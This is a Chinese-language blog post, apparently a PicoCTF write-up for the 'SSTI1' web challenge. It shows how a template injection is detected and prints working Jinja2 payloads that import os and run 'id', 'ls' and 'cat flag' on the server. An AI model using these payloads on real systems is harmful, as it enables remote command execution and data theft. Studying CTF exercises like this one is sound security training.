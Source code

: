```yaml
---
title: 'PicoCTF Web Exploitation 解題紀錄'
published: 2025-04-19
description: '紀錄一點web解題'
image: ''
tags: [PicoCTF, Web Exploitation, CTF, 網路安全]
category: '資安'
draft: false
lang: ''
---
```

# Introduction
這是拿來放一些解題ㄉ紀錄，慢慢邊做邊寫，因為我好久沒碰了



## SSTI1
### Description
首先你會看到一個酷酷的網站，有一個輸入框，你會發現不論輸入啥他都會顯示在頁面上，我們可以試試看輸入```{{7*7}}```  會得到什麼
<img src="https://i.imgur.com/mbFg62p.png" width="300" height="200" />
沒錯!一個大大的49，這就是一個SSTI的漏洞，這個漏洞可以讓我們執行python的程式碼，接下來我們可以試試看```{{7*7*7*7}}``` 會得到什麼
![image](https://i.imgur.com/WgLYlaS.png)
這時我們已經確定這是一個SSTI的漏洞了，接下來我們可以來點更有趣的東西，他可以執行python的程式碼，因此應該可以執行一些系統命令
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![1745082641462](images/1745082641462.png)
這段程式碼大概的意思是
- ```request.application```: 訪問當前Web請求的應用

- ```__globals__```: 訪問全局命名空間，允許獲取內建函式

- ```__import__('os')```: 動態導入 os 模塊，這樣就可以使用操作系統相關功能

- ```popen('id')```: 執行系統命令 id，該命令顯示當前用戶的身份

- ```read()```: 讀取命令的輸出結果  
那我們可以把命令改成，ls來看看有沒有什麼驚喜，聽話讓我看看!
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![1745083019268](images/1745083019268.png)
最後只要試試看
```
python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
我們就會得到flag了!  
picoCTF{||幹嘛，你要自己去試試看阿!還想偷看阿hhhhhhhhhhhhhhh||}  




